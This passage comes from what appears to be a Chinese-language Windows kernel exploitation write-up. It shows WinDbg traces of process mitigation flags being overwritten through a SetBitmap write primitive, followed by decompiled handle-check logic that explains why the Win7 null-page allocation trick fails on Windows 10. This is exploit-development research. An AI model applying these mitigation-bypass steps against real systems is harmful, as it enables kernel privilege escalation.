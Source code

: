 可以看到，在当前进程Win32k API是不禁用的，也就是说，我们仍然可以直接调用Win32k的API，而NtAllocateVirtualMemory则处于禁用状态。对于Flags来说是0000d0000，Flags2来说是144d0c01，这样把它们转换成二进制，把对应比特位置换为1（这个内容可以在我的源码中看到），然后赋值给各自的Flags。

```
kd&gt; r r13//获取两个Flags值，并且修改比特位之后的值
r13=a1beb1e1164d0c00
kd&gt; r r14
r14=144d0c018000d000
kd&gt; g//命中软中断
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; dd ffffe28d12cb2080+300 L4//修改后，通过SetBitmap写入偏移
ffffe28d`12cb2380  8000d000 164d0c01 a1beb1e1 01d288e0
```

这里我采用了Win7零页分配的方法，handle选择0xffffffffffffffff，但是发现在Win10中，会调用ObpReferenceObjectByHandleWithTag函数Check handle，如果不是一个有效的handle，则直接返回，NTSTATUS直接报错。

```
kd&gt; p
nt!MiAllocateVirtualMemory+0x7b8:
fffff801`7cee27c8 498bca          mov     rcx,r10
kd&gt; p //ObpReferenceObjectByHandleWithTag check handle
nt!MiAllocateVirtualMemory+0x7bb:
fffff801`7cee27cb e8a0070100      call    nt!ObpReferenceObjectByHandleWithTag (fffff801`7cef2f70)
kd&gt; p
nt!MiAllocateVirtualMemory+0x7c0:
fffff801`7cee27d0 89442464        mov     dword ptr [rsp+64h],eax
kd&gt; r eax//没有这个handle则返回NTSTATUS
eax=c0000008
// ObpReferenceObjectByHandleWithTag 检查逻辑
  if ( (BugCheckParameter1 &amp; 0x80000000) != 0i64 )
  `{`
    if ( BugCheckParameter1 == -1i64 )//如果handle值为0xfff....ff
    `{`
      if ( v9 != PsProcessType &amp;&amp; v9 )
      `{`
        LODWORD(v12) = -1073741788;
      `}`
      else
      `{`
        v37 = *(_QWORD *)(v8 + 184);
        if ( v11 &amp; 0xFFE00000 &amp;&amp; a4 )
        `{`
          LODWORD(v12) = -1073741790;
        `}`
        ……
      `}`
      return (unsigned int)v12;                 // C0000008
    `}`
    if ( BugCheckParameter1 == -2i64 )
    `{`
    `}`
  `}`
```
